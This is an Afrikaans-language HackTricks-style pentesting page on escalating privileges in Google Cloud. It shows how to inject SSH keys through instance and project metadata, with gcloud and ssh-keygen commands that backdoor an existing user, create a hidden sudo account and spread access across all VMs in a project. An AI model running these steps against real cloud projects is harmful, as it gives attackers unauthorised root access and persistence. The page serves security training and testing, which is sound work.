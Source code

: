 # GCP - Voeg Aangepaste SSH Metadata By

## GCP - Voeg Aangepaste SSH Metadata By

{{#include ../../../../banners/hacktricks-training.md}}

### Wysig die metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Metadata-wysig op 'n instansie kan lei tot **beduidende sekuriteitsrisiko's as 'n aanvaller die nodige toestemmings verkry**.

#### **Inkorporering van SSH Sleutels in Aangepaste Metadata**

Op GCP, **Linux stelsels** voer dikwels skripte uit vanaf die [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). 'n Kritieke komponent hiervan is die [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), wat ontwerp is om **gereeld** die instansie metadata-eindpunt na te gaan vir **opdaterings van die geautoriseerde SSH publieke sleutels**.

Daarom, as 'n aanvaller aangepaste metadata kan wysig, kan hy die daemon laat vind 'n nuwe publieke sleutel, wat verwerk sal word en **geïntegreer sal word in die plaaslike stelsel**. Die sleutel sal bygevoeg word in die `~/.ssh/authorized_keys` lêer van 'n **bestaande gebruiker of moontlik 'n nuwe gebruiker met `sudo` toestemmings skep**, afhangende van die sleutel se formaat. En die aanvaller sal in staat wees om die gasheer te kompromitteer.

#### **Voeg SSH sleutel by bestaande bevoorregte gebruiker**

1. **Ondersoek Bestaande SSH Sleutels op die Instansie:**

- Voer die opdrag uit om die instansie en sy metadata te beskryf om bestaande SSH sleutels te vind. Die relevante afdeling in die uitvoer sal onder `metadata` wees, spesifiek die `ssh-keys` sleutel.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- Let op die formaat van die SSH sleutels: die gebruikersnaam kom voor die sleutel, geskei deur 'n dubbelepunt.

2. **Bereid 'n Tekslêer voor vir SSH Sleutel Metadata:**
- Stoor die besonderhede van gebruikersname en hul ooreenstemmende SSH sleutels in 'n tekslêer genaamd `meta.txt`. Dit is noodsaaklik om die bestaande sleutels te behou terwyl nuwe bygevoeg word.
3. **Genereer 'n Nuwe SSH Sleutel vir die Teiken Gebruiker (`alice` in hierdie voorbeeld):**

- Gebruik die `ssh-keygen` opdrag om 'n nuwe SSH sleutel te genereer, en verseker dat die kommentaarveld (`-C`) ooreenstem met die teiken gebruikersnaam.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- Voeg die nuwe publieke sleutel by `meta.txt`, wat die formaat naboots wat in die instansie se metadata gevind word.

4. **Werk die Instansie se SSH Sleutel Metadata Op:**

- Pas die opgedateerde SSH sleutel metadata op die instansie toe met die `gcloud compute instances add-metadata` opdrag.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Toegang tot die Instansie met die Nuwe SSH Sleutel:**

- Maak verbinding met die instansie met SSH met die nuwe sleutel, en toegang die skulp in die konteks van die teiken gebruiker (`alice` in hierdie voorbeeld).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Skep 'n nuwe bevoorregte gebruiker en voeg 'n SSH sleutel by**

As daar geen interessante gebruiker gevind word nie, is dit moontlik om 'n nuwe een te skep wat `sudo` toestemmings gegee sal word:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH sleutels op projekvlak <a href="#sshing-around" id="sshing-around"></a>

Dit is moontlik om die bereik van SSH-toegang na verskeie Virtuele Masjiene (VM's) in 'n wolkomgewing te verbreed deur **SSH sleutels op projekvlak toe te pas**. Hierdie benadering laat SSH-toegang toe tot enige instansie binne die projek wat nie eksplisiet projekwye SSH sleutels geblokkeer het nie. Hier is 'n samegevatte gids:

1. **Pas SSH Sleutels op die Projekvlak toe:**

- Gebruik die `gcloud compute project-info add-metadata` opdrag om SSH sleutels van `meta.txt` by die projek se metadata te voeg. Hierdie aksie verseker dat die SSH sleutels oor alle VM's in die projek erken word, tensy 'n VM die "Blok projekwye SSH sleutels" opsie geaktiveer het.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH in Instansies met Projekwye Sleutels:**
- Met projekwye SSH sleutels in plek, kan jy SSH in enige instansie binne die projek. Instansies wat nie projekwye sleutels blokkeer nie, sal die SSH sleutel aanvaar, wat toegang verleen.
- 'n Direkte metode om in 'n instansie te SSH is deur die `gcloud compute ssh [INSTANCE]` opdrag te gebruik. Hierdie opdrag gebruik jou huidige gebruikersnaam en die SSH sleutels wat op projekvlak gestel is om toegang te probeer verkry.

## Verwysings

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
